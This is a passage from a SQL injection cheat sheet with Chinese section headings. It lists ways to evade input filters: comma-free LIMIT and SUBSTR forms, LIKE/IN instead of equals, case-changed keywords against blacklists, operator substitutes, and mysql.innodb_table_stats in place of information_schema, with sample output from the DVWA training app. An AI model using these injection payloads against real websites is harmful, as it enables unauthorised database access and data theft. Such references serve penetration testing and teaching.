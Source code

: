```sql
?id=(1)and(1)=(1)--
```

没有逗号 - 使用OFFSET，FROM和JOIN绕过

```sql
LIMIT 0,1         -> LIMIT 1 OFFSET 0
SUBSTR('SQL',1,1) -> SUBSTR('SQL' FROM 1 FOR 1).
SELECT 1,2,3,4    -> UNION SELECT * FROM (SELECT 1)a JOIN (SELECT 2)b JOIN (SELECT 3)c JOIN (SELECT 4)d
```

没有等于 - 通过使用LIKE/NOT/IN绕过

```sql
?id=1 and substring(version(),1,1)like(5)
?id=1 and substring(version(),1,1)not in(4,3)
?id=1 and substring(version(),1,1)in(4,3)
```

黑名单禁止关键词 - 通过改变大小写绕过

```sql
?id=1 AND 1=1#
?id=1 AnD 1=1#
?id=1 aNd 1=1#
```

使用黑名单并且不区分大小写 - 使用对等符号

```sql
AND   -> &&
OR    -> ||
=     -> LIKE,REGEXP, not < and not >
> X   -> not between 0 and X
WHERE -> HAVING
```

替换Information_schema.tables

```sql
select * from mysql.innodb_table_stats;
+----------------+-----------------------+---------------------+--------+----------------------+--------------------------+
| database_name  | table_name            | last_update         | n_rows | clustered_index_size | sum_of_other_index_sizes |
+----------------+-----------------------+---------------------+--------+----------------------+--------------------------+
| dvwa           | guestbook             | 2017-01-19 21:02:57 |      0 |                    1 |                        0 |
| dvwa           | users                 | 2017-01-19 21:03:07 |      5 |                    1 |                        0 |
...
+----------------+-----------------------+---------------------+--------+----------------------+--------------------------+

mysql> show tables in dvwa;
+----------------+
| Tables_in_dvwa |
+----------------+
| guestbook      |
| users          |
+----------------+
```
